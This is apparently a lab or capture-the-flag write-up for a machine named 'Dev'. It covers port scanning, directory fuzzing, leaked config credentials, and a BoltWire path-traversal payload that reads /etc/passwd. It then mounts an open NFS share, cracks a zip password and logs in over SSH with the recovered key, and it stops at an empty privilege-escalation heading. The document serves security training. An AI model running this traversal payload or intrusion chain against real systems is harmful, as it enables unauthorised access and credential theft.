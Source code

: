 # Dev machine writeup
Starting with nmap scan
```
sudo nmap 192.168.0.106 -T4 -A -p-
```

![nmap_scan](https://github.com/moataz-bellah/writeups/assets/47069499/0a26779d-dac7-43d4-a7c5-bab4a06393a1)

We have a lot of ports, but we will focus on 22, 80, 8080, 2049. We have two ports for http 80 and 8080. Let's see both of them.
- On port 80

![boltwire_port_80](https://github.com/moataz-bellah/writeups/assets/47069499/16a62c1b-5b5a-4844-9de2-cc55ac5ac842)

- On port 8080

![boltwire_port_8080](https://github.com/moataz-bellah/writeups/assets/47069499/41dd0ef2-e72a-40ed-95ab-718e8c4f08de)

Ok, let's do directory busting to find more useful dirs. I did dirbusting on both ports 80, 8080.

- For port 80

```
ffuf -u http://192.168.0.106/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ
/extensions
/vendor
/app
/src
/public
```

- For port 8080

```
ffuf -u http://192.168.0.106:8080/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ
/dev
```

We found a lot of paths, to save your time i checked all of them and i only found two useful directories /dev, /app. Let's start with /app. Inside /app, you will find some interesting files, but i want to  
on /app/config/config.yaml. When i checked that file, i found sqlite credentials

```
database:
    driver: sqlite
    databasename: bolt
    username: bolt
    password: I_love_java
```

Let's see /dev

![bolt_wire_login](https://github.com/moataz-bellah/writeups/assets/47069499/2228f650-8382-480a-96b3-467a3be2d50f)

I tried to login with the credentials (username: bolt, password: I_love_java) we found, but i didn't work. Ok, let's create a new account using from register. I created one (username: test, password: test).  
Exploring the site and i found something might be useful when you click print in the navbar.

![bolt_wire_version](https://github.com/moataz-bellah/writeups/assets/47069499/73cb83af-e18f-40a5-b0c8-83e91c751b5d)

Ok, we have the site version. I searched online for any exploit, and i found this site vulnerable to LFI. See these link for more information https://www.exploit-db.com/exploits/48411
https://github.com/Cyber-Wo0dy/CVE-2023-46501. Note, you have to be logged in to execute the exploit. Using /index.php?p=action.search&action=../../../../../../../etc/passwd i found that

![lfi_exploit](https://github.com/moataz-bellah/writeups/assets/47069499/582c44ba-f31d-42a3-95b4-f35ece34d933)

I found username "jeanpaul". I tried some other sensitive files, but it didn't work. Nothing more in this site. Let's move to port 2049.

```
showmount -e 192.168.0.106
Export list for 192.168.0.106:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16
```

Good, we have /srv/nfs, let's get it and see what it has.

```
mkdir /mnt/test
sudo mount -t nfs 192.168.0.106:/srv/nfs /mnt/test
```

I found a zip file "save.zip" protected with a passwrod. We crack the password using fcrackzip tool

```
sudo fcrackzip -D -u -p /home/robot/Desktop/rockyou.txt save.zip

PASSWORD FOUND!!!!: pw == java101
```

After unzipping the file, i found two files todo.txt , id_rsa.

```
cat todo.txt
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome

jp
```

It has nothing interesting, but we have a great file id_rsa which is a private key for ssh. Let's try to login to ssh using that file. I tried with (username: bolt, password: I_love_java), but it didn't work
I tried to login with (username: jeanpaul, password: I_love_java)

```
ssh -i id_rsa jeanpaul@192.168.0.106                            
Enter passphrase for key 'id_rsa': I_love_java
```

![ssh](https://github.com/moataz-bellah/writeups/assets/47069499/e98820f6-33f9-4d33-9331-cdf017fd8c84)

Heeey, we are in.

# Privilege Escalation




